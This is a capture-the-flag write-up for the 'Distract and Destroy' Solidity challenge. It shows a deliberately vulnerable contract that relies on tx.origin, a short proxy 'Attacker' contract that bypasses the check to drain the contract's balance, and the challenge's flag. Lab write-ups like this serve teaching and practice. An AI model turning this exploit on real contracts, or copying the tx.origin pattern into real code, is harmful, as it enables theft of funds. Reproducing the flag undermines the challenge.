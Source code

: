 # Distract and Destroy

### CHALLENGE DESCRIPTION
**_After defeating her first monster, Alex stood frozen, staring up at another massive, hulking creature that loomed over her. She knew that this was a fight she couldn't win on her own. She turned to her guildmates, trying to come up with a plan. "We need to distract it," Alex said. "If we can get it off balance, we might be able to take it down." Her guildmates nodded, their eyes narrowed in determination. They quickly came up with a plan to lure the monster away from their position, using a combination of noise and movement to distract it. As they put their plan into action, Alex drew her sword and waited for her chance._**

## Solution

**STEP 1: Code reviewing**

There we have 2 Solidity files similar to `Survival of the Fittest` codes:

>**`Setup.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Setup {
    Creature public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Creature{value: 10}();
    }

    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```

>**`Creature.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Creature {
    uint256 public lifePoints;
    address public aggro;

    constructor() payable {
        lifePoints = 1000;
    }

    function attack(uint256 _damage) external {
        if (aggro == address(0)) {
            aggro = msg.sender;
        }

        if (_isOffBalance() && aggro != msg.sender) {
            lifePoints -= _damage;
        } else {
            lifePoints -= 0;
        }
    }

    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

    function _isOffBalance() private view returns (bool) {
        return tx.origin != msg.sender;
    }
}
```

Here you can see some differences from the `Survival of the Fittest` files, such as `_isOffBalance()` and `aggro`. To kill the enemy, we need to bypass these conditions.


**STEP 2: The Bypass**

Take a look to the `_isOffBalance()` function. 

```
function _isOffBalance() private view returns (bool) {
    return tx.origin != msg.sender;
}
```

Let`s deploy a contract to avoid this.

>**`Creature.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface ICreature {
    function attack(uint256 _damage) external;
}

contract Attacker {
    ICreature target;

    constructor(address _target) {
        target = ICreature(_target);
    }

    function attack(uint256 _damage) external {
        target.attack(_damage);
    }
}
```

We need to deploy it to distract enemy.

Deploying via `forge`:

![image](https://github.com/luvranse/web3/assets/46570641/30965871-2205-41cb-8e07-8e7bee8417da)


**STEP 3: The Battle**

Initiate an attack via `cast` with one of our contracts. Distract the enemy.

![image](https://github.com/luvranse/web3/assets/46570641/d417621b-9c19-48eb-a161-216f52c0b59b)

Then attack with another one. 

![image](https://github.com/luvranse/web3/assets/46570641/cfe7d15c-dd96-4e7c-a96d-454a2bac6854)

Let's try take a loot. 

![image](https://github.com/luvranse/web3/assets/46570641/f551402d-c47d-4b4d-87f2-c440b85f9b50)

Congratz! There is the flag!

![image](https://github.com/luvranse/web3/assets/46570641/f895087e-50f5-404e-bd6b-5cf0580cf372)

### FLAG

```
HTB{tx.0r1gin_c4n_74k3_d0wn_4_m0n5732}
```

